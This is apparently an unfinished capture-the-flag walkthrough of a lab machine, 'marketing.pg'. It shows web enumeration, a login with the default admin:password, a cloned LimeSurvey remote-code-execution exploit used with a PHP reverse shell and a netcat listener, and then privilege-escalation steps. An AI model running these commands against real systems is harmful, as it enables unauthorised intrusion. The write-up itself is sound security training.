

Running feroxbuster we discover /old/:
```
feroxbuster -u http://192.168.182.225/ -C 404,400 -A --wordlist '/usr/share/seclists/Discovery/Web-Content/directory-list-2.3-big.txt' -B --auto-tune
```


Now to check the difference:
```
curl http://marketing.pg/old/ > old.txt
curl http://marketing.pg/ > new.txt
diff old.txt new.txt
```

This seems new.


Adding to /etc/hosts

http://customers-survey.marketing.pg/:


At /admin:

We can try `admin:password`

Now we are logged in:



Using this [exploit](https://github.com/Y1LD1R1M-1337/Limesurvey-RCE):
```
git clone https://github.com/Y1LD1R1M-1337/Limesurvey-RCE.git
cd Limesurvey-RCE
```


Now editing php-rev.php:


We can zip this now:
```
zip Y1LD1R1M.zip config.xml php-rev.php
```
Now we can change the path at exploit.py:


Now we can run it after running listener:
```
sudo rlwrap nc -nlvp 80
```
```
python3 exploit.py http://customers-survey.marketing.pg/ admin password 80
```

We get a shell:


Running linpeas:

We discover a password.

Using this password on both users in `/home`:


We are t.miller now.

Running `sudo -l`:

 

Checking id:

We are in mlocate group

Now we can find files owned by group mlocate:
```
find / -group mlocate 2>/dev/null
```


We find a file called creds-for-2022.txt


Ughhhh didnt work will try later
